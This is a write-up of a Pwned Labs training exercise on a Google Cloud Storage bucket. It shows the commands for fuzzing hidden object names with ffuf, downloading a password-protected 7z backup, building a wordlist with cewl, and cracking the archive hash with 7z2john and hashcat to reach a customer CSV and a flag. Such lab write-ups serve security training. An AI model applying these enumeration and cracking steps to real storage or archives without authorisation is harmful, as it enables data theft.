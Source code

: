 ```yaml
---
title: Reveal Hidden Files in Google Storage 
description: Reveal Hidden Files in Google Storage 
image:
  path: gcp.png
categories:
- Pwned Labs
- GCP
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/gcp/
tags:
- pwnedlabs
- gcp
- cloud
---
```

# Scenario
Gigantic Retail are a Fortune 50 company and therefore have a target on their back. Conscious that threat actors will be probing their infrastructure, they have provisionally engaged your team to assess the security of their on-premise and cloud environment. Your mission is to demonstrate impact and show them the value of retaining our services in the long-term.

Learning outcomes:

- Familiarity with the Google Cloud CLI
- Enumerate Google File Storage
- Discover and access hidden files using ffuf
- Crack encrypted 7-Zip archives using Hashcat


# Walkthrough
We are given url, which redirects to website with static content

![](reveal-hidden-files-in-google-storage-1.png)


If we view source code, we see the link to `https://storage.googleapis.com/it-storage-bucket`, which is [Google Storage Bucket](https://cloud.google.com/storage/docs/buckets)

![](reveal-hidden-files-in-google-storage-2.png)


The subdomain `storage.googleapis.com` is used by [Google Storage service](https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/gcp-services/gcp-storage-enum.html#enumeration), while `it-storage-bucket` is bucket name. 

Let's use Google Cloud CLI and check the bucket (create some google account)
```
└─$ gcloud auth login  
```

We can try listing bucket contents, but we receive don't have access. 
```
└─$ gcloud storage buckets list gs://it-storage-bucket/
ERROR: (gcloud.storage.buckets.list) [<REDACTED>] does not have permission to access b instance [it-storage-bucket] (or it may not exist): <REDACTED> does not have storage.buckets.get access to the Google Cloud Storage bucket. Permission 'storage.buckets.get' denied on resource (or it may not exist). This command is authenticated as <REDACTED> which is the active account specified by the [core/account] property.               
```
```
└─$ gsutil ls gs://it-storage-bucket/
AccessDeniedException: 403 <REDACTED> does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).     
```

We check metadata of the `index.html` 
```
└─$ gsutil stat gs://it-storage-bucket/index.html
gs://it-storage-bucket/index.html:
    Creation time:          Tue, 26 Dec 2023 17:16:02 GMT
    Update time:            Tue, 26 Dec 2023 20:16:06 GMT
    Storage class:          STANDARD
    Content-Length:         11407
    Content-Type:           text/html
    Hash (crc32c):          NQiHAw==
    Hash (md5):             rIHCYQzSUEHllo04PfXd0w==
    ETag:                   CMTu57HNrYMDEAI=
    Generation:             1703610962016068
    Metageneration:         2

```

We can't browse the bucket contents directly (unless some object URLs are exposed via the website), but we can fuzz the endpoint for potential files, directories etc. (since Cloud Storage relies on names to identify buckets and objects). 

We can start fuzzing with [xajkep's wordlist](https://github.com/xajkep/wordlists) to enumerate for common backup filenames.

```
└─$ ffuf -w /usr/share/xajkep-wordlists/discovery/backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /usr/share/xajkep-wordlists/discovery/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 499ms]

```

We find `backup.7z` archive, let's download it using `gsutil`
```
└─$ gsutil cp gs://it-storage-bucket/backup.7z .
Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]                                                
Operation completed over 1 objects/21.6 KiB.  
```

The archive is password protected
```
└─$ 7z x backup.7z 

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=en_US.UTF-8 Threads:32 OPEN_MAX:65535

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
```

We can generate custom wordlist using `cewl` by spidering a targets website and collecting unique words.
```
cewl https://careers.gigantic-retail.com/index.html > wordlist.txt
```

Now we need to extract the hash via `7z2john`
```
└─$ 7z2john backup.7z > backup.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
    
```

Next, we use hashcat to crack the hash. Before running the hashcat, remove `<FILENAME>:` portion from the hash, since `7z2john` saves it in the following format `<FILENAME>:<HASH>`.
```
└─$ hashcat -m 11600 backup.hash wordlist.txt
hashcat (v6.2.6) starting
<SNIP>
$7z$2$19$0$$8$1090375a5c67675f0000000000000000$3425971665$<SNIP>022ff80c9590343e1a91b13db$54160$08:<REDACTED>
<SNIP>
```

Password works, now we can access archive's content
```
└─$ ls -lha         
total 140K
drwxrwxr-x 2 kali kali 4.0K Aug  8 01:08 .
drwxrwxr-x 5 kali kali 4.0K Jun 22 00:35 ..
-rw-rw-r-- 1 kali kali  22K Aug  8 00:59 backup.7z
-rw------- 1 kali kali  53K Dec 27  2023 customers-credit-review.csv
-rw-r--r-- 1 kali kali   33 Dec 27  2023 flag.txt
```
```
└─$ cat customers-credit-review.csv 
first_name,last_name,address,city,county,state,zip,phone1,phone2,email
James,Butt,6649 N Blue Gum St,New Orleans,Orleans,LA,70116,504-621-8927,504-845-1427,jbutt@gmail.com
Josephine,Darakjy,4 B Blue Ridge Blvd,Brighton,Livingston,MI,48116,810-292-9388,810-374-9840,josephine_darakjy@darakjy.org
Art,Venere,8 W Cerritos Ave #54,Bridgeport,Gloucester,NJ,8014,856-636-8749,856-264-4130,art@venere.org
Lenna,Paprocki,639 Main St,Anchorage,Anchorage,AK,99501,907-385-4412,907-921-2010,lpaprocki@hotmail.com
<SNIP>
```